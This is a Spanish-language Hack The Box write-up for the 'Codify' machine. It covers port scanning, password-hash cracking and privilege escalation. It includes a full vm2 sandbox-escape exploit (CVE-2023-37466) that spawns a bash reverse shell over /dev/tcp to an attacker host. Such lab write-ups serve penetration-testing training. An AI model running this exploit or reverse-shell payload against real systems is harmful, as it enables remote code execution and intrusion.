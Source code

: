 # Codify

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205144333.png?raw=true)

Write Up
--------

Codify es una máquina Linux donde explotaremos una vulnerabilidad en **vm2** (una biblioteca popular que se utiliza para ejecutar código no confiable en un entorno aislado en Node) 

Para comenzar, nos tenemos que asegurar de que la máquina está activa. Para ello mandamos una traza ICMP `ping -c 1 <IP>`, si está activa nos devolverá este mensaje &rarr; `1 packet emitted, 1 packet received` . La máquina está activa.

Una vez nos aseguramos de que la máquina está activa, pasamos a la fase de **reconocimiento**

## Reconocimiento

Empezamos la fase de reconocmiento. Para ello hacemos uso de la herramienta **Nmap**, que nos permitirá reconocer los puertos que están abiertos. Existen 3 tipos de estados en cuanto a puertos.
1) Abierto (open)
2) Cerrado (closed)
3) Filtrado (filtered) &rarr; El puerto está protedigo por un firewall

Para enumerar los puertos abiertos, utilizaremos el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oN allPorts
```

Esto hará que un escaneo de los 65535 puertos y nos devolverá en un archivo los puertos que están abiertos. 

En este caso, odemos observar estos puertos abiertos:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205145448.png?raw=true)

Como podemos observar, tenemos 3 puertos abiertos. 
- 22 (ssh)
- 80 (http)
- 3000 (ppp)

Para obtener más información acerca de estos puertos, ejecutamos el siguiente comando:

```bash
nmap -sCV -p22,80,3000 <IP> -oN targeted
```

Ejecutando este comando, **nmap** ejecutará un conjunto de scripts donde nos proporcionará información sobre los servicios y versiones que corren por detrás de cada puerto. En este caso:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205150042.png?raw=true)

## Explotación

Si nos metemos en la web mediante la IP, nos sale lo siguiente:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205150259.png?raw=true)

**¿Cómo podemos solucionar esto?**

Este error significa que la dirección IP asociada con ese dominio, no se está resolviendo correctamente. Para resolverlo, tenemos que añadir esa dirección al `/etc/hosts`

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205150753.png?raw=true)

Esto hará que cuando pongamos la dirección IP en la url del navegador, se resolverá a la dirección de dominio **`codify.htb`**

Al guardar el archivo y refrescar la web:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205151222.png?raw=true)

Si nos vamos a la ventana de *About Us*: 
![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205151434.png?raw=true)

Podemos ver que en el editor, está implementada la librería **vm2**.

**¿Qué es vm2?**

> VM2 es un módulo en Node.js que permite ejecutar código JavaScript de forma aislada y segura en un entorno controlado. Esta biblioteca proporciona funcionalidades para crear instancias de máquinas virtuales en las cuales puedes ejecutar scripts de JavaScript sin afectar el entorno principal de la aplicación.

Esta librería, tiene una vulnerabilidad. La **[CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5)** 

Esta vulnerabilidad nos permite una ejecución remota de comandos.

Si en el editor, ejecutamos el siguiente exploit:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

Y nos ponemos en escucha con **netcat** en el puerto especificado:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205152257.png?raw=true)

Una vez hemos conseguido una **reverse shell**, seguiremos con el tratamiento de la TTY.

Mediante los siguiente comandos:

- **`script /dev/null -c bash`**
- **`Hacemos Ctrl + Z`**
- **`stty raw -echo; fg`**
- **`Escribimos: reset`**

Y una vez estemos de nuevo en la terminal:

- **`export TERM=xterm`**

Y ya tendríamos una consola en condiciones.

El usuario con el que estamos conectados es: **`svc`** 

Si nos vamos a la ruta **`/home`** vemos que hay un usuario **`joshua`** al cual no podemos acceder, por lo que tendremos que conseguir las credenciales de este usuario.

Vamos a donde está almacenada la web: **`/var/www/`** y aquí tenemos 3 carpetas. **`contact`**, **`editor`** y **`html`**

Nos metemos en la carpeta **`contact`** y hacemos un cat del archivo `tickets.db`

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205170029.png?raw=true)

Como podemos comprobar, tenemos el usuario: `joshua` y la contraseña que es todo lo que sigue. La cual está hasheada.

Para poder dehashear la contraseña, utilizaremos **john the ripper**. 

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205170214.png?raw=true)

La contraseña es: **spongebob1**

Con esas credenciales, tenemos dos opciones. O nos metemos mediante el SSH que hemos visto que está abierto, o desde la propia terminal que tenemos abierta, hace un **`su joshua`**
e introducir la contraseña. Yo he preferido quedarme en la terminal que tengo abierta, ya que he tratado la TTY por lo que es lo mismo.

Y haciendo **`ls`** encontramos la *flag* de **user** por lo que nos quedaría encontrar la flag de root.

## Escalada de privilegios

El útlimo paso sería escalar privilegios en la máquina.

En primer lugar, podemos buscar los programas con permisos **SUID** que podamos ejecutar como usuario **`joshua`**.

Para encontramos esos archivos:

```bash
find / -perm -4000 2>/dev/null
```

De los programas que salen, no podemos utilizar ninguno ya que no tenemos permisos de ejecución.

Por lo que probamos con otro comando:

```bash
sudo -l
```

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205171125.png?raw=true)

Vemos que tenemos ese archivo.

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205171323.png?raw=true)

**Casualmente** en el direcotrio 'joshua' hay un script programado en python que ejecuta el programa **`mysql-backup.sh`**, el cual, al ejecutarlo, nos va a mostrar la contraseña de root.

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205171621.png?raw=true)

Por último:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205171744.png?raw=true)

### Hasta aquí :)
